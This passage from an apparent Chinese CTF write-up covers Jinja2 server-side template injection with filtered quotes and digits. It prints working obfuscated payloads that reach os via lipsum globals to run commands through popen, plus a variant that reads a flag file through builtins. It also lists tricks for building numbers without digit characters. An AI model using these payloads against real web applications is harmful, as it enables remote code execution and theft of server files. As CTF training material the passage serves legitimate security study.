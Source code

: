 得到payload:

```python
{% print (lipsum|attr((config|string|list).pop(74).lower()~(config|string|list).pop(74).lower()~(config|string|list).pop(6).lower()~(config|string|list).pop(41).lower()~(config|string|list).pop(2).lower()~(config|string|list).pop(33).lower()~(config|string|list).pop(40).lower()~(config|string|list).pop(41).lower()~(config|string|list).pop(42).lower()~(config|string|list).pop(74).lower()~(config|string|list).pop(74).lower())).get((config|string|list).pop(2).lower()~(config|string|list).pop(42).lower()).popen((config|string|list).pop(1).lower()~(config|string|list).pop(40).lower()~(config|string|list).pop(23).lower()~(config|string|list).pop(7).lower()~(config|string|list).pop(279).lower()~(config|string|list).pop(4).lower()~(config|string|list).pop(41).lower()~(config|string|list).pop(40).lower()~(config|string|list).pop(6).lower()).read() %}
```

方法二：

```python
{% set a=dict(o=a,s=a)|join %}
```

这样得到的a就是将该字典的键名拼接后的值，也就是os，这样的拼接无需单引号

```python
{% set a=(config|string|list).pop(74)%}
{% set glob=(a,a,dict(globals=a)|join,a,a)|join() %}
{% set bult=(a,a,dict(builtins=a)|join,a,a)|join() %}
{% set b=(lipsum|attr(glob)).get(bult) %}
{% set chr=b.chr %}
{% print b.open(chr(47)~chr(102)~chr(108)~chr(97)~chr(103)).read() %}
```



#### web370过滤数字

获取数字的方式：

<font color='red'>第一种：</font>

```python
{}|int # 0
(not{})|int # 1
((not{})|int+(not{})|int) # 2
((not{})|int+(not{})|int)**((not{})|int+(not{})|int) # 4
((not{})|int,(not{})|int)|sum # 2

((not{})|int,{}|int)|join|int # 10
(-(not{})|int,{}|int)|join|int # -10
'aaxaaa'.index('x') # 2
((),())|count/length # 2
((),())|length # 2

{% set two=(dict(cc=z)|join|count) %} # 2，length、count都可以
```

<font color='red'>第二种：也可用全角数字和一些一些 unicode 字符代替正常数字</font>

```
٠١٢٣٤٥٦٧٨٩
𝟢𝟣𝟤𝟥𝟦𝟧𝟨𝟩𝟪𝟫
𝟘𝟙𝟚𝟛𝟜𝟝𝟞𝟟𝟠𝟡
𝟶𝟷𝟸𝟹𝟺𝟻𝟼𝟽𝟾
𝟬𝟭𝟮𝟯𝟰𝟱𝟲𝟳𝟴𝟵
以上皆不是正常的阿拉伯数字
```
